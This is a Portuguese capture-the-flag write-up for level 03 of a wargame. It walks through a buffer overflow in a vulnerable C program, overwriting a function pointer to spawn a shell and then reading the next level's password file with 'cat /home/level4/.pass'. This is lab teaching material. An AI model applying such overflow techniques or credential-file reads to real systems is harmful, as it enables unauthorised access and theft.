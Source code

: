 # ~ Level 03 ~

```
cd /levels
./level3
~NADA ACONTECE...~
ls -la
ls -la
total 576
...
-r-sr-x---  1 level4  level3   5238 Sep 22  2012 level03
-r--------  1 level3  level3    658 Sep 22  2012 level03.c
...
```

Assim como o nível 2, parece que temos o código fonte do level03 disponível.

```
cat level03.c
//bla, based on work by beach

#include <stdio.h>
#include <string.h>

void good()
{
        puts("Win.");
        execl("/bin/sh", "sh", NULL);
}
void bad()
{
        printf("I'm so sorry, you're at %p and you want to be at %p\n", bad, good);
}

int main(int argc, char **argv, char **envp)
{
        void (*functionpointer)(void) = bad;
        char buffer[50];

        if(argc != 2 || strlen(argv[1]) < 4)
                return 0;

        memcpy(buffer, argv[1], strlen(argv[1]));
        memset(buffer, 0, strlen(argv[1]) - 4);

        printf("This is exciting we're going to %p\n", functionpointer);
        functionpointer();

        return 0;
}
```

Desta vez, parece que necessitaremos de certo conhecimento acerca de gerenciamento de memória.

Precisamos de um argumento (argc != 2) e este argumento deve ter mais que 4 caracteres, sendo que o *buffer* suporta no máximo 50 bytes.

Devemos colocar em mente, também, que o software usa *memcpy* e *memset*.

Vamos observar o comportamento do software funcionalmente.

```
./level03 123123123123123
This is exciting we're going to 0x80484a4
I'm so sorry, you're at 0x80484a4 and you want to be at 0x8048474
./level03 123123123123123123123123123123123
This is exciting we're going to 0x80484a4
I'm so sorry, you're at 0x80484a4 and you want to be at 0x8048474
```

Note que mesmo para entradas de tamanhos diferentes, o endereço de memória é o mesmo.

Isto nos informa que necessitaremos de uma abordagem um pouco mais complexa.

O que acontece se estourarmos o buffer?

```
./level03 123123123123123123123123123123123123123123123123123123123123123123123123123123
This is exciting we're going to 0x8043332
Segmentation fault
```

Um SEGFAULT! Note também que o endereço de memória alterou, e isto causou o SEGFAULT.

E se manipularmos nossa string até alcançar o 0x8048474?

```
./level03 12312312312312312312312312312312312312312312312312312312312312312312312312312
This is exciting we're going to 0x8048432
level3@io:/levels$ ./level03 1231231231231231231231231231231231231231231231231231231231231231231231231231
This is exciting we're going to 0x80484a4
I'm so sorry, you're at 0x80484a4 and you want to be at 0x8048474
level3@io:/levels$ ./level03 12312312312312312312312312312312312312312312312312312312312312312312312312319
This is exciting we're going to 0x8048439
level3@io:/levels$ ./level03 1231231231231231231231231231231231231231231231231231231231231231231231231231z
This is exciting we're going to 0x804847a
Win.
sh-4.3$
```

Conseguimos!

```
cat /home/level4/.pass
###############
```
